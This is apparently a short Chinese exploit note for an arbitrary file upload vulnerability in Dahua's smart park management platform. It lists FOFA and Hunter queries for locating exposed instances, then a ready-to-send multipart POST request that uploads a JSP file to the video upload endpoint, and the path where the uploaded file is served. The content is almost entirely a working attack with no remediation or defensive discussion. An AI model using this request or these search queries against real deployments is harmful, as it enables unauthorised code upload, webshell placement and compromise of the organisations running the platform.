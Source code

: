 # 大华 智慧园区综合管理平台 video 任意文件上传漏洞

## 网络测绘

fofa: app="dahua-智慧园区综合管理平台"

hunter: app.name="Dahua 大华 智慧园区管理平台"

## POC / EXP

```
POST /publishing/publishing/material/file/video HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 804
Content-Type: multipart/form-data; boundary=dd8f988919484abab3816881c55272a7
Accept-Encoding: gzip, deflate
Connection: close

--dd8f988919484abab3816881c55272a7
Content-Disposition: form-data; name="Filedata"; filename="Test.jsp"

Test
--dd8f988919484abab3816881c55272a7
Content-Disposition: form-data; name="Submit"

submit
--dd8f988919484abab3816881c55272a7--
```

```
/publishingImg/VIDEO/230812152005170200.jsp
```